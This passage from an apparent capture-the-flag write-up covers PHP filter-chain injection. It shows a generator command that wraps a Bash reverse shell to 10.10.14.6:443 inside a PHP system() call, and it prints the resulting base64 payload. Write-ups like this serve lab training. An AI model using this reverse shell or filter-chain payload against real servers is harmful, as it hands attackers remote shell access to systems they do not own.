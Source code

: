 When I put this into Repeater, it works:

[![image-20230412095538974](/img/image-20230412095538974.png)*Click for full size image*](/img/image-20230412095538974.png)

#### Shell

I’ll generate another filter chain, this time with a [Bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

```

oxdf@hacky$ python php_filter_chain_generator.py --chain '<?php system("bash -c \"bash -i >& /dev/tcp/10.10.14.6/443 0>&1 \""); ?>'
[+] The following gadget chain will generate the following code : <?php system("bash -c \"bash -i >& /dev/tcp/10.10.14.6/443 0>&1 \""); ?> (base64 value: PD9waHAgc3lzdGVtKCJiYXNoIC1jIFwiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxIFwiIik7ID8+)
```